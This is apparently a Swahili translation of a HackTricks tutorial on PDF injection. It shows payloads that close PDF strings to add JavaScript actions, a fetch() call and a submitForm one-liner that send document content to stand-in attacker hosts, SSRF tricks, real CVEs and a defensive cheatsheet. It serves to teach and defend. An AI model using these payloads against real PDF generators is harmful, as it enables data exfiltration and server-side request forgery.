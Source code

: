 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**Ikiwa ingizo lako linaonyeshwa ndani ya faili la PDF, unaweza kujaribu kuingiza data ya PDF ili kutekeleza JavaScript, kufanya SSRF au kuiba maudhui ya PDF.**
Sintaksia ya PDF ni ya kuruhusu sana - ikiwa unaweza kutoka kwenye mfuatano au kamusi inayojumuisha ingizo lako unaweza kuongeza vitu vipya kabisa (au funguo mpya katika kitu hicho hicho) ambacho Acrobat/Chrome kitafurahia kuchambua.
Tangu mwaka wa 2024, wimbi la ripoti za bug-bounty limeonyesha kwamba *parenthesis moja isiyo na kuepukwa au back-slash inatosha* kwa utekelezaji kamili wa script.

## TL;DR – Mchakato wa Shambulio wa Kisasa (2024)
1. Pata thamani yoyote inayodhibitiwa na mtumiaji ambayo inaishia ndani ya **(parenthesis string)**, `/URI ( … )` au `/JS ( … )` uwanja katika PDF iliyozalishwa.
2. Ingiza `) ` (kufunga mfuatano) ikifuatiwa na moja ya primitives zilizo hapa chini na kumaliza na parenthesis nyingine ya ufunguzi ili kuweka sintaksia kuwa sahihi.
3. Toa PDF yenye uharibifu kwa mwathirika (au kwa huduma ya nyuma inayotengeneza faili kiotomatiki - nzuri kwa makosa ya kipofu).
4. Payload yako inafanya kazi katika mtazamaji wa PDF:
* Chrome / Edge → PDFium Sandbox
* Firefox → PDF.js (ona CVE-2024-4367)
* Acrobat → Full JavaScript API (inaweza kuhamasisha maudhui ya faili yoyote kwa `this.getPageNthWord`)

Mfano (kuiba kiungo cha maelezo):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*`)` ya kwanza inafunga mfuatano wa URI wa awali, kisha tunaongeza kamusi mpya ya **Action** ambayo Acrobat itatekeleza wakati mtumiaji anapobofya kiungo.*

## Primitives za Injection Zinazofaa
| Lengo | Kipande cha Payload | Maelezo |
|------|-----------------|-------|
| **JavaScript kwenye ufunguzi** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | Inatekelezwa mara moja wakati hati inafunguliwa (inafanya kazi katika Acrobat, si katika Chrome). |
| **JavaScript kwenye kiungo** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | Inafanya kazi katika PDFium & Acrobat ikiwa unadhibiti `/Link` annotation. |
| **Kuvuja kwa data kwa siri** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | Changanya na `this.getPageNthWord` ndani ya JS ili kuiba maudhui. |
| **Server-Side SSRF** | Kama ilivyo hapo juu lakini lengo ni URL ya ndani – nzuri wakati PDF inatolewa na huduma za ofisi za nyuma ambazo heshimu `/URI`. |
| **Mstari wa Kuvunja kwa vitu vipya** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | Ikiwa maktaba inakuwezesha kuingiza wahusika wapya wa mstari unaweza kuunda vitu vipya kabisa. |

## Hila ya Blind Enumeration
Gareth Heyes (PortSwigger) alitoa mstari mmoja unaoelezea kila kitu ndani ya hati isiyojulikana – muhimu unaposhindwa kuona PDF iliyotengenezwa:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
K code inazunguka Acrobat DOM na kufanya maombi ya nje kwa kila mali/kiwango, ikikupa *JSON-ish* dump ya faili. Tazama karatasi ya nyeupe “Portable Data **ex**Filtration” kwa mbinu kamili.

## Real-World Bugs (2023-2025)
* **CVE-2024-4367** – Utekelezaji wa JavaScript wa kiholela katika PDF.js ya Firefox kabla ya 4.2.67 ilipita sandbox kwa hatua iliyoundwa ya `/JavaScript`.
* **Bug bounty 2024-05** – Fintech kubwa iliruhusu maelezo ya ankara yaliyotolewa na wateja ambayo yalifika katika `/URI`; ripoti ililipwa $10k baada ya kuonyesha SSRF kwa mwenyeji wa metadata wa ndani kwa kutumia `file:///` URI.
* **CVE-2023-26155** – `node-qpdf` command-injection kupitia njia ya PDF isiyo safishwa inaonyesha umuhimu wa kukwepa backslashes na mabano hata *kabla* ya safu ya PDF.

## Defensive Cheatsheet
1. **Usiunganishe kamwe pembejeo za mtumiaji za moja kwa moja** ndani ya `(`…`)` nyuzi au majina. Kwepa `\`, `(`, `)` kama inavyohitajika na §7.3 ya spesifiki ya PDF au tumia nyuzi za hex `<...>`.
2. Ikiwa unajenga viungo, pendelea `/URI (https://…)` ambayo ume *weka* URL-kodisha kikamilifu; zuia mipango ya `javascript:` katika watazamaji wa mteja.
3. Ondoa au thibitisha kamusi za `/OpenAction`, `/AA` (hatua za ziada), `/Launch`, `/SubmitForm` na `/ImportData` wakati wa usindikaji wa baada ya PDFs.
4. Kwenye upande wa seva, uwasilishe PDFs zisizoaminika kwa kutumia *converter isiyo na kichwa* (mfano qpdf –decrypt –linearize) ambayo inatoa JavaScript na hatua za nje.
5. Hifadhi watazamaji wa PDF wakiwa na sasisho; PDF.js < 4.2.67 na Acrobat Reader kabla ya patchi za Julai 2024 zinaruhusu utekelezaji wa msimbo wa kawaida.

## References
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (updated May 2024). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (Apr 2024). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
